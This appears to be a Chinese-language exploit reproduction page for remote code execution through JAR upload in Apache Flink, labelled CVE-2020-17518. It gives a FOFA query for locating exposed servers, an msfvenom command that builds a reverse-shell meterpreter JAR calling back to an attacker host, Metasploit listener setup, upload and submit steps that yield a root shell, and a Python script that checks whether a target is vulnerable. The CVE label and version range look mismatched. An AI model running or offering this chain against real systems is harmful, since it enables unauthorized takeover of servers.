 # Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

# Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

## 漏洞影响

- Apache Flink  <= 1.9.1(最新版本)

## 网络测绘

- app="Apache-Flink" && country="CN"

## 漏洞复现

打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](/images/202202090031054.png)

点击查看文件上传页面

![bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4](/images/202202090032614.png)

打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![3](/images/202202090032442.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![4](/images/202202090032416.png)

点击下 submit

![5](/images/202202090032257.png)

反弹回来一个root 权限shell

![6](/images/202202090032335.png)

## 漏洞POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink <= 1.9.1          \033[0m')
    print('+  \033[36m使用格式: python3 Apache_Flink.py         \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jars/upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "Unable to load requested file /jars/upload." in response.text:
            print("\033[32m[o] 可能存在 Apache Flink <= 1.9.1 远程代码执行漏洞\n\033[0m")
        else:
            print("\033[31m[x] 目标Url 文件上传模块无法使用\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![7](/images/202202090033380.png)

